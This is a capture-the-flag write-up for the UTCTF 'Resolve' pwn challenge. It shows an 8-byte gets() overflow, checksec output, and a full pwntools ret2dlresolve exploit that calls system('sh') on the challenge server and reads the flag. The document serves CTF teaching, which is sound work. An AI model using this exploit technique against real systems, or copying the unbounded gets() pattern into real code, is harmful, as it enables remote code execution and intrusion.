 # Resolve

**Category**: Pwn \
**Points**: 980 (46 solves) \
**Author**: trab

## Challenge

Yeah you have an overflow, but where do you even jump to? If only there was
some sort of way to find the address of system.

`nc pwn.utctf.live 5435`

Attachments: `resolve`

## Overview

I threw it into Ghidra and got this:
```c
int main() {
  char buf[8];
  gets(buf);
  return 0;
}
```

Wow another tiny pwn challenge!
Let's do `checksec`:

```
$ checksec resolve
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

The challenge hints at ret2dlresolve, which should work since there's no PIE
and stack canary.
Luckily I saw a super elegant ret2dlresolve solution by theKidOfArcrania to
[babyrop](https://ctftime.org/task/14690) from DiceCTF, so I just edited it
slightly and it worked!

Pwntools is so powerful sometimes it makes me feel like a script kiddie lol.

```python
import pwn

pwn.context.binary = e = pwn.ELF("./resolve")

# p = pwn.process("./resolve")
p = pwn.remote("pwn.utctf.live", 5435)

if pwn.args.GDB:
    pwn.gdb.attach(
        p,
        gdbscript="""
break *(&main+29)
continue
    """,
    )

r = pwn.ROP(e)
d = pwn.Ret2dlresolvePayload(e, symbol="system", args=["sh"])
r.raw(0x401159)  # ret gadget to align stack
r.gets(d.data_addr)
r.ret2dlresolve(d)

payload = pwn.fit({0x10: r.chain()}) + b"\n" + d.payload
p.sendline(payload)
p.interactive()
```

Output:
```
$ python3 solve.py
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn.utctf.live on port 5435: Done
[*] Loading gadgets for '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'
[*] Switching to interactive mode
$ ls
flag.txt
$ cat flag.txt
utflag{2_linker_problems_in_one_ctf?8079235}
```

